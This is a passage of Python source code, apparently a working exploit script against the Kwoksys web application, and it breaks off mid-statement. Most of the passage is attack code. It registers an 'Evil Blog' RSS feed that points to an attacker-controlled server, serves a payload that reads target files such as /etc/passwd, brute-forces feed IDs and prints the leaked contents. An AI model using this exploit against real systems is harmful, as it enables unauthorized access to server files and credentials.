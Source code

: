 ```python
        data += '&feedUrl=' + urllib.parse.quote_plus('http://' + str(self.LHOST) + ':' + str(self.LPORT) + '/evil')
        data += '&feedName=Evil%20Blog'
        self.requestHelper('/kwok/rss/feed-edit-2.htm', 'POST', data)
        fileResult = self.requestHelper('/kwok/rss/feed-list-items.htm?feedId=' + feedID, 'GET')
        
        rawText = urllib.parse.unquote((fileResult.content.decode()))
        rawText = (html.unescape(rawText))
        if 'Problem retrieving RSS feed' in rawText:
            print("[X] File not found on target")
            return
        else:
            match = re.search(r'rssTitle">(.*)</a></div>', rawText, re.DOTALL)
            if match:
                print(match.group(1))
        
    def setup(self):
        print('[+] Setting up our evil RSS feed')
        # Change to win.ini if Windows
        self.update_payload('/etc/passwd')
        data = 'feedUrl=' + urllib.parse.quote_plus('http://' + str(self.LHOST) + ':' + str(self.LPORT) + '/evil')
        resp = self.requestHelper('/kwok/rss/feed-add-2.htm', 'POST', data)
	
        # Hunt for our newly created feed ID
        for id in range(0,100):
            result = self.requestHelper('/kwok/rss/feed-edit.htm?feedId=' + str(id), 'GET')
            if (not 'Object Not Found' in str(result.content)):
                if ('Evil Blog' in str(result.content)):
                    feedID = str(id)
                    print("[+] Found our evil RSS feed at ID: " + feedID)
                    return feedID
        print("[+] Could not find feed ID")
        exit()

class EvilHandler(SimpleHTTPRequestHandler):
    # Overload log_message method to suppress access logs from being sent to stdout
    def log_message(self, format, *args):
        logging = False

def StartServer(PORT):
    with socketserver.TCPServer(("", PORT), EvilHandler) as httpd:
        print("[+] Payload Delivery Server now Listening ---> 0.0.0.0:{}".format(PORT))
        httpd.serve_forever()

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('--url', '-b', required=True, dest='base_url', help='Kwoksys Base URL')
    parser.add_argument('--user', '-u', required=True, dest='username', help='Username')
    parser.add_argument('--password', '-p', required=True, dest='password', help='Password')
    parser.add_argument('--mode', '-m', required=True, dest='mode', help='Mode')
    parser.add_argument('--LHOST', '-lh', required=True, dest='LHOST', help='Local Address to Serve Payload from')
    parser.add_argument('--LPORT', '-lp', required=True, dest='LPORT', help='Local Port to Serve Payload from')

    args = parser.parse_args()
    client = kwoksys(args.base_url, args.username, args.password, args.LHOST, args.LPORT)
    if client.isVulnerable():
        threading.Thread(target=StartServer, args=(int(args.LPORT),)).start()
        time.sleep(1)
        feedID = client.setup()
    if args.mode == 'read_files':
```